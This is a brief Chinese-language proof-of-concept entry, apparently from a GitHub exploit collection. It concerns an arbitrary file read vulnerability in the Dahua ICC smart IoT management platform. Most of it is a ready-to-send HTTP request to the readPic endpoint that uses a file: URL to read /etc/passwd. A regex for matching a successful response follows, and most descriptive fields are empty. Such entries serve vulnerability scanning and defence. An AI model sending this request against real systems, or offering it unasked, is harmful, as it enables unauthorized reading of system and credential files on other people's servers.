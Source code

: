 ﻿# 大华智能物联综合管理平台ICC readpic任意文件读取漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd HTTP/1.1
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：大华智能物联综合管理平台ICC readpic任意文件读取漏洞.poc

